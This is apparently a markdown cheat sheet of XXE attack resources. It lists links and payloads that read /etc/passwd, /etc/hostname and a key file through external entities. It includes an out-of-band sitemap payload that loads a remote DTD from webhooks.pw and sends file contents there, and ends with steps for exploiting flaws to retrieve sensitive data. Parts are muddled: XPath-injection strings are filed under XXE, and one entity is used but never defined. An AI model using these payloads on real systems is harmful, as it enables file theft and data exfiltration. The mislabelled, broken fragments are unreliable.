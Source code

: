 ### **XXE (XML External Entity) Resources**

#### **1. Cheat Sheets & Guides**
- **Security Idiots XXE Cheat Sheet**:
  ```bash
  https://www.securityidiots.com/Web-Pentest/XXE/XXE-Cheat-Sheet-by-SecurityIdiots.html
  ```
- **Discord Discussion**:
  ```bash
  https://discord.com/channels/1246401663787335721/1248927468358991973/1255248924139065474
  ```
- **Cave Confessions - XXE Ugly Side of XML**:
  ```bash
  https://caveconfessions.com/xxe-ugly-side-of-xml/
  ```

#### **2. Reading Response Data**
- **XML Decoder**:
  ```bash
  java version="1.7.0_111" class="java.beans.XMLDecoder
  ```

#### **3. XXE Payloads**
- **Basic Payload**:
  ```bash
  %27%20or%201=1] - usernames will appear
  ```
- **Advanced Payload**:
  ```bash
  hacker'%20or%201=1]/parent::*/child::node()%00 - use this payload to get all data in DB
  ```

#### **4. Entity Call**
- **Entity Call Syntax**:
  ```bash
  <!DOCTYPE%20test%20[<!ENTITY%20ent%20SYSTEM%20"file:///pentesterlab.key">%20]><test>%26ent;</test>
  ```

#### **5. Guide State Example**
- **Guide State Payload**:
  ```bash
  guideState={"guideState"%3a{"guideDom"%3a{},"guideContext"%3a{"xsdRef"%3a"","guidePrefillXml"%3a"<%3fxml+version%3d\"1.0\"+encoding%3d\"utf-8\"%3f><!DOCTYPE+afData+[<!ENTITY+a+SYSTEM+\"file%3a///etc/passwd\">]><afData>%26a%3b</afData>"}}}
  ```
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE urlset [
 <!ENTITY % goodies SYSTEM "file:///etc/hostname">
 <!ENTITY % dtd SYSTEM "http://dtd.webhooks.pw/files/combine.dtd">
%dtd;
]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" 
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.sitemaps.org/schemas/sitemap/0.9 http://www.sitemaps.org/schemas/sitemap/0.9/sitemap.xsd">
    <url>
        <loc>http://location.webhooks.pw/resp/&xxe;</loc>
        <lastmod>2006-11-18</lastmod>
        <changefreq>daily</changefreq>
        <priority>0.8</priority>
    </url>
</urlset>
```


---

### **How to Use This Information**
1. **Cheat Sheets**:
   - Refer to the provided cheat sheets and guides for detailed XXE payloads and techniques.

2. **Reading Response Data**:
   - Use XML decoders to read and interpret response data from XXE vulnerabilities.

3. **Payload Testing**:
   - Test the provided payloads to exploit XXE vulnerabilities and retrieve sensitive data.

4. **Entity Call**:
   - Ensure correct syntax when calling entities, using `&` or `%26`.

5. **Guide State Example**:
   - Use the guide state example to craft payloads for specific applications or frameworks.

---
